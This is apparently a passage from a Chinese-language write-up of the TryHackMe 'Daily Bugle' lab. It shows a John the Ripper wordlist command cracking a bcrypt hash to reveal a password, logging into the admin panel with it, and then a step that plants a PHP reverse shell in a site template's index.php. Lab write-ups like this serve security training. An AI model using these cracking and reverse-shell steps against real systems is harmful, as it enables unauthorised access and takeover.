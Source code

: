 ## John破解hash密码

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Hash-Name
```
```                                   
┌──(kali㉿kali)-[~/桌面/THM/Daily Bugle]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt            
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:24:35 DONE (2023-12-13 10:28) 0.000677g/s 31.74p/s 31.74c/s 31.74C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

+ 获得密码：``spiderman123``

+ 登录后台: ``jonah:spiderman123``

    ![Alt text](/style/image/image-343.png)

## 获取shell

+ 选择模版并在index.php写入反向shell（利用php-reverse-shell.php)：
